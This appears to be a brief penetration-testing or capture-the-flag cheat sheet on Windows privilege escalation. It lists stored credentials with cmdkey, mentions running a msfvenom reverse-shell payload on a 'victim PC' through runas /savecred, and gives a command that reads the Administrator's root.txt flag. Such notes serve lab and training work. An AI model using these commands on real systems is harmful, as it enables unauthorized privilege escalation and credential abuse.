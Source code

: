 # RunAs
--------------

runas - to run specific tools, programs or commands with the permissions of a different user

cmdkey - cmd line utility to create, list and delete stored usernames, passwords or creds

```cmd
cmdkey /list   	#identify stored creds
```

to execute a reverse shell using runas; generate a msfvenom payload and upload it to the victim PC

```cmd
runas /savecred /user:WORKGROUP\User "Program to execute"
```


read a flag or something

```cmd
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\Cibbin\Desktop\root.txt"
```